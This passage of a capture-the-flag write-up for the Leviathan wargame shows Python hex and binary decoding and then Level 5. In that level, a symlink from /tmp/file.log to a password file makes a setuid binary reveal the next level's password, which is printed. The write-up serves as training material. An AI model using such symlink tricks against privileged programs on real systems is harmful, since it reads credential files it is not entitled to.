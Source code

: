 Now, we have the flag in plaintext and can use it to SSH into the next game.

```
binary to hex:
>>> hex(int('01010100', 2))
u'0x54'
# .decode('hex') uses binascii.unhexlify() on Python 2.
>>> n[2:].decode('hex')
'T'
>>> import codecs
>>> codecs.decode("7061756c", "hex")
'paul'
>>> bytearray.fromhex("7061756c").decode()
u'paul'
>>> bytearray.fromhex(n[2:]).decode()
u'T'
```

## Level 5

Here, we are given the binary `./leviathan5` in Leviathan5's home directory.  Let's execute it without any arguments.

```bash
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
```

It attempts to read from a file in /tmp/.  The binary is setuid and owned by Leviathan6, so we can use it to read Leviathan6's password.

We'll need to create a symbolic link that points to the password file using `ln -s`.  The symbolic link (/tmp/file.log) can be treated as an alias for the password file.

```bash
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ls -la /tmp/file.log
lrwxrwxrwx 1 leviathan5 leviathan5 30 Aug 31 23:31 /tmp/file.log -> /etc/leviathan_pass/leviathan6
```

Now, when the binary tries to read the file contents in /tmp/file.log, it will access the contents of the target file /etc/leviathan_pass/leviathan6.

```bash
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li
```

The following command creates a symbolic link at the command-line interface (shell):

 ln -s target_path link_path

target_path is the relative or absolute path to which the symbolic link should point. Usually the target will exist, although symbolic links may be created to non-existent targets. link_path is the path of the symbolic link.

After creating the symbolic link, it may generally be treated as an alias for the target. Any file system management commands (e.g., cp, rm) may be used on the symbolic link. Commands which read or write file contents will access the contents of the target file.
